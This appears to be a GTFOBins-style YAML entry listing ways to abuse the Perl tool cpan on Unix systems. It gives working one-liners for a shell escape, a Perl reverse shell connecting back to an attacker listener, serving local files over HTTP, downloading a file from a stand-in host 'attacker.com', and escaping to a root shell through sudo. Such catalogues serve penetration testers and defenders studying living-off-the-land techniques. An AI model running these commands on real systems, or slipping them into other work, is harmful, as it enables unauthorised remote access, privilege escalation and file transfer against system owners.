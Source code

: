 ```yaml
---
functions:
  shell:
    - description: cpan lets you execute perl commands with `! command`
      code: |
        cpan
        ! exec '/bin/bash'

  reverse-shell:
    - description: Run ``nc -lvp RPORT`` on the attacker box to receive the shell.
      code: |
        export RHOST=localhost
        export RPORT=9000
        cpan
        ! use Socket; my $i="$ENV{RHOST}"; my $p=$ENV{RPORT}; socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp")); if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S"); open(STDOUT,">&S"); open(STDERR,">&S"); exec("/bin/sh -i");};

  file-upload:
    - description: Serve files in the local folder running an HTTP server on port 8080. Install dependency via `cpan HTTP::Server::Simple`.
      code: |
        cpan
        ! use HTTP::Server::Simple; my $server= HTTP::Server::Simple->new(); $server->run();

  file-download:
    - description: Fetch a remote file via HTTP GET request and store it in PWD.
      code: |
        export URL=http://attacker.com/evil.txt
        cpan
        ! use File::Fetch; my $file = (File::Fetch->new(uri => "$ENV{URL}"))->fetch();

  sudo:
    - code: |
        sudo cpan
        ! exec '/bin/bash'

---
```

